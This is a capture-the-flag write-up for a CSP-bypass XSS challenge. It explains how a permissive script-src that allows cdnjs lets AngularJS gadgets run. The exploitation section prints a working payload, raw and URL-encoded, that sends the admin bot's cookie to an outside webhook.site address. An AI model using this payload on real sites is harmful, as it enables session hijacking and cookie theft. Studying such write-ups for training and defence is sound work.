






# Easy CSP (BKSEC Training 2026)
---
## Overview

The site represents us a dashboard receiving user input and echo it onto the screen and a report site gets url which is then reported to the admin.





## Functionality analysis

- `/index.php`: the server returns exactly what user's input is. Get user input via query `?msq=`

 I tried with **`;ls ;`**


In the response headers, there is Content-Security-Policy (CSP) as follow:


**Content-Security-Policy**:
- default-src 'self'
> default set all sources of resources to **self** if there isn't specification.
- script-src 'self' https://cdnjs.cloudflare.com
> set only run **\<script\>** originating from itself or from the url
- style-src 'self' 'unsafe-inline' https://fonts.googleapis.com
> set source of CSS of itself or the url, allow inline scripting (for eg: \<style\>... \</style\>)
- font-src 'self' https://fonts.gstatic.com
> set source of font to self and the url
- img-src 'self' data: *
> set source of image to the page itself (specified by 'self'), allow import image via `data:` method. Finally allow the image can be from anywhere via `*`. (That's kinda weird!!?)


- `/report.php`: only allow the url with the path is `/web/`. So this site only accepts url of this: `http:/web/?msq=foo` (which is the url of `index.php`)






## Vulnerability analysis

It seems that the admin/bot will visit our submited url so it can get XSS. We can read flag from it.

However, in the CSP headers `script-src` there is no 'unsafe-inline', then we can't inject XSS via echo.



Server also filter dangerous keyword so I used `<sc<script>ript>alert('xss')</script>` to bypass.


But the CSP completely prevents this way.

Looking at the `script-src` it also allows script from **https://cdnjs.cloudflare.com** (which is a library of many js frameworks believed to be secure but some of them can be exploited. The most well-known is **AngularJS**). Then if I can import a library from the url, all code belonging to it will be executed by the parser. 

- **Vul 1**: Over-trust external libraries, or specify the scope of allowed hosts too broad (CSP isn't tight enough)
- **Vul 2**: Server receives input from user with little validation. Attacker can easily bypass. It likely doesn't use function to escape special chars such as: `<`,`>`,...

## Exploitation
Search for payload or prompt AI to generate the code.

The code is modified a little bit to send to my listener.

```javascript
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script><div ng-app ng-csp><input autofocus ng-focus="$event.view.location='https://webhook.site/fd710372-1775-4a27-b9f3-83478bde10e4/?c='+$event.view.document.cookie"></div>
```

At this point, I'd like to clarify something:
- I use `ng-csp` since the CSP doesn't have `unsafe-eval`, whereas angular automatically use eval().
- I use `window.location` because this is an action of opening a new tab, not **connect** since the `connect-src-` is set to 'self' as default. (You can also use `img-src` to leak the data out as per header: `img-src *`)

Url-encode and append to the `http://web/` and send it to `report.php`:

```javascript
http://web/index.php?msg=%3Cscript%20src%3D%22https%3A%2F%2Fcdnjs%2Ecloudflare%2Ecom%2Fajax%2Flibs%2Fangular%2Ejs%2F1%2E8%2E2%2Fangular%2Emin%2Ejs%22%3E%3C%2Fscript%3E%3Cdiv%20ng%2Dapp%20ng%2Dcsp%3E%3Cinput%20autofocus%20ng%2Dfocus%3D%22%24event%2Eview%2Elocation%3D%27https%3A%2F%2Fwebhook%2Esite%2Ffd710372%2D1775%2D4a27%2Db9f3%2D83478bde10e4%2F%3Fc%3D%27%2B%24event%2Eview%2Edocument%2Ecookie%22%3E%3C%2Fdiv%3E
```


3

> ***BKSEC{CSP_byP4ss_w1th_Angul4r_G4dg3tz}***